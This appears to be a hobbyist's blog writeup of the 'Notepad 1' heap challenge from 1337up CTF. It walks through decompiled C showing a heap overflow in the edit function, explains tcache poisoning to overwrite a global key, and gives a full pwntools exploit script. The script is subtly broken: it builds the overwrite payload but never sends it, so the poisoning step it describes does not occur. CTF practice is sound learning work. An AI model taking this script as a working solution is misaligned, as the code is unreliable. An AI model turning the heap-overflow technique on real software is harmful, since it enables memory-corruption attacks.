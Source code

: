 ```yaml
---
title: 1337ctfwriteups
date: 2024-11-19 21:32:57
tags:
---
```

I played in 1337up CTF last weekend but no one wants to hear about my day so here are my writeups for the few pwn challenges I solved.

# Notepad 1
#### baby heap pwn
## Analysis
We are presented with a few files to host the challenge with a docker instance locally but I'm lazy and there's not much point anyways so I don't use it.

The only really important file is the challenge binary itself, as even though the libc and linker were provided I didn't end up using them

Opening it up in Ghidra, we can see it looks like a pretty simple CRUD heap challenge with a win function.
After looking around a bit, I found the main vulnerability. When creating a note, you are only allowed to write to the allocated chunk the size of the chunk, but when updating it, you are allowed to write up to a set amount of 0x100 bytes.

`createNote`:
```c
  puts("How large you want the note to be?");
  printf("> ");
  __isoc99_scanf(&DAT_001014c3,&size);
  uVar1 = index;
  pvVar2 = malloc(size);
  *(void **)(notepad + (ulong)uVar1 * 8) = pvVar2;
  puts("Add your note:");
  printf("> ");
  local_28 = *(long *)(notepad + (ulong)index * 8);
  sVar3 = read(0,*(void **)(notepad + (ulong)index * 8),size);
```
`editNote`:
```c
  puts("Your changes:");
  printf("> ");
  read(0,*(void **)(notepad + (ulong)index * 8),0x100);
```
This gives us an easy write primitive in subsequent heap chunks, meaning we can do things like overwrite metadata in the following heap chunks. 

# The plan
Armed with a write primitive, we can start planning our exploit. The binary very generously gives us a PIE leak at the start of the program, meaning there is essentially no PIE, so we just need to find a way to call our win function. 

Speaking of, here it is in Ghidra (or at least the important part):
```c
void secretNote(void)

{
  int __fd;
  size_t __n;
  long in_FS_OFFSET;
  undefined local_418 [1032];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  if (key != -0x35014542) {
    puts("You don\'t have access!");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
 /* Print flag code */
}
```

That number `-0x35014542` is actually `0xcafebabe` but because its a signed number Ghidra thinks its a negative number.
We can see that to get the flag we must first write 0xcafebabe to the global variable `key` then call secretNote (which there is an option for in the menu).

---
So how can we write to `key`? Recall that we have an overflow in the update function that allows us to overwrite the subsequent chunks of an arbitrary chunk.

This means that we can overwrite the FD and BK pointers of a freed chunk to point to `key`, which will cause the program to think that `key` is a freed chunk in the tcache,  and will return a pointer to `key` after allocating twice.

So, we can allocate two chunks and write 0xcafebabe to the second one, which will be at `key`, then just call the win function.

Before overwrite:
```
0x00: 0x0000000000000000 0x0000000000000020 (chunk1)
0x10: 0x6161616161616161 0x6161616161616161
0x20: 0x6161616161616161 0x0000000000000020 (chunk2)
0x30: 0x(NULL_FD_PTR)
```
After overwrite:
```
0x00: 0x0000000000000000 0x0000000000000020 (chunk1)
0x10: 0x6161616161616161 0x6161616161616161
0x20: 0x6161616161616161 0x0000000000000020 (chunk2)
0x30: 0x(OUR_FD_PTR)
```

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./notepad_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.REMOTE:
        p = remote("notepad.ctf.intigriti.io", 1341)
    else:
        p = process([exe.path])
        if args.DB:
            gdb.attach(p)

    return p


def create(p, i, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(i).encode())
    p.sendlineafter(b'> ', str(size).encode())
    p.sendlineafter(b'> ', data)

def read(p, i):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', str(i).encode())
    return p.recvuntil(b'\n\n\nChoose', drop=True)

def update(p, i, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'> ', str(i).encode())
    p.sendlineafter(b'> ', data)

def delete(p, i):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'> ', str(i).encode())

def main():
    p = conn()

    # good luck pwning :)
    p.recvuntil(b'gift: ')
    exe_leak = int(p.recvline().strip(), 16)
    exe.address = exe_leak - exe.sym['main']
    print(hex(exe.address))

    create(p, 0, 16, b'deadbeef')  # chunk1
    create(p, 1, 16, b'deadc0de')  # chunk2
    delete(p, 1)                   # Free chunk2 to put it in tcache

    payload = b'a' * 24            # Pad until FD ptr
    payload += flat(0x21, exe.sym['key']) # Overwrite FD

    create(p, 2, 16, b'cafef00d')  # Alloc once to use actual tcache chunk
    create(p, 3, 16, flat(0xcafebabe))  # Alloc once more to use our fake chunk

    p.sendlineafter(b'> ', b'5')

    p.interactive()

if __name__ == "__main__":
    main()
```

This was my first ever pwn writeup and second writeup ever so please give feedback thanks.
